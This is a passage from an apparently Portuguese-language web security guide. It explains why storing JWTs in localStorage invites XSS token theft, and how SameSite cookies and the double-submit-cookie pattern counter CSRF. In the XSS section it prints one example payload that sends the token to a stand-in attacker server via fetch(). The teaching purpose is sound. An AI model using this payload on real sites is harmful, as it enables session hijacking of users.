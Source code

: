 ### A Ameaça XSS: Por que o localStorage é um Alvo de Alto Risco

*Cross-Site Scripting* (*XSS*) é uma vulnerabilidade que permite a um invasor injetar e executar scripts maliciosos no navegador de um usuário no contexto de um site confiável. Se um JWT for armazenado em *localStorage* ou *sessionStorage*, qualquer exploração de *XSS* bem-sucedida pode ler e exfiltrar o token.

O ataque é trivialmente simples. Um invasor que encontre uma falha de *XSS* (por exemplo, em um campo de comentário ou em um parâmetro de URL que é renderizado sem sanitização) pode injetar um *payload* como:

```html
<script>fetch('https://attacker-controlled-server.com/log?token=' + localStorage.getItem('jwt'))</script>
```

Este script simplesmente pega o token do *localStorage* e o envia para um servidor controlado pelo invasor. Uma vez que o token é roubado, o invasor pode usá-lo para se passar pelo usuário em todas as requisições à API, efetivamente sequestrando a sessão até que o token expire. Devido a esse risco severo, guias de segurança como o *OWASP Cheat Sheet Series* desaconselham fortemente o armazenamento de tokens de sessão em *localStorage*.

### A Ameaça CSRF: A Espada de Dois Gumes dos Cookies

*Cross-Site Request Forgery* (*CSRF*) é um ataque que força o navegador de um usuário autenticado a executar uma ação indesejada em um site confiável. Como os *cookies* são enviados automaticamente com as requisições, um site malicioso pode criar um formulário que, quando submetido (mesmo que de forma invisível para o usuário), envia uma requisição para o site alvo (por exemplo, `https://banco.com/transferir`). O navegador da vítima incluirá automaticamente o *cookie* JWT, fazendo com que o servidor execute a ação como se fosse legitimamente iniciada pelo usuário.

A defesa primária contra *CSRF* é o atributo de *cookie* *SameSite*:

- **SameSite=Strict**: O *cookie* só é enviado em requisições que se originam do mesmo site. Isso bloqueia efetivamente o *CSRF*, mas pode quebrar fluxos legítimos, como clicar em um link para o site a partir de um e-mail.
- **SameSite=Lax**: Oferece um bom equilíbrio. O *cookie* não é enviado em sub-requisições de sites cruzados (como imagens ou *iframes*) nem com requisições POST de sites cruzados, mas é enviado quando o usuário navega para a URL (por exemplo, clicando em um link). Este é o comportamento padrão na maioria dos navegadores modernos e mitiga a maioria dos vetores de ataque *CSRF*.

Uma camada adicional de defesa é o padrão *Double Submit Cookie*. Nesse padrão, o servidor define um token *CSRF* em um *cookie* legível por JavaScript. O script do cliente lê esse token do *cookie* e o inclui em um cabeçalho HTTP personalizado (por exemplo, `X-CSRF-TOKEN`) em todas as requisições que alteram o estado. O servidor então verifica se o valor no cabeçalho corresponde ao valor no *cookie*. Um site malicioso não pode realizar esse ataque porque a política de mesma origem o impede de ler o *cookie* para definir o cabeçalho corretamente.

## Padrões de Armazenamento Recomendados: O Modelo de Token de Atualização/Token de Acesso

A melhor prática da indústria, endossada por especialistas em segurança e pelo *OWASP*, é uma abordagem híbrida que mitiga tanto *XSS* quanto *CSRF*, aproveitando os pontos fortes de cada mecanismo de armazenamento. Este padrão não apenas escolhe um risco em detrimento do outro; ele mitiga ativamente ambos.
